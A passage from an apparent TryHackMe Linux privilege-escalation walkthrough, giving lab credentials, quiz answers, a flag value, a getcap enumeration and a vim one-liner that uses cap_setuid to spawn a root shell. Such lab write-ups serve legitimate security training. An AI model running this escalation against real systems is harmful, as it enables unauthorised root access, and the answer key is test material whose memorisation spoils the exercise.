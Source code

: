 Username: karen<br>

Password: Password1</strong></p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 8.1 - <em>Complete the task described above on the target system.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p></p><br>

> 8.2 - <em>How many binaries have set capabilities?</em><br>
>> <code><strong>6</strong></code><br>
<p></p>

<pre><code>root@ip[Target]:/$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
</code></pre><br>

> 8.3 - <em>What other binary can be used through its capabilities?</em><br>
>> <code><strong>view</strong></code><br>
<p></p>

<pre><code>root@ip[Target]:/$ getcap -r / 2>/dev/null
...
/home/ubuntu/view = cap_setuid+ep
</code></pre><br>

> 8.4 - <em>What is the content of the flag4.txt file?</em><br>
>> <code><strong>THM-9349843</strong></code><br>
<p></p><br>

<pre><code># whoami
root
#bash -i
root@ip-[Target]:~# find / -name flag4.txt 2>/dev/null
/home/ubuntu/flag4.txt
root@ip-[Target]:~# cat /home/ubuntu/flag4.txt
THM-9349843
</code></pre><br>

<pre><code>./vim -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
</code></pre><br>

<h2>Task 9 - Privilege Escalation: Cron Jobs</h2>
<br>

<p><strong>Note: Launch the target machine attached to this task to follow along.<br>

You can launch the target machine and access it directly from your browser.<br>
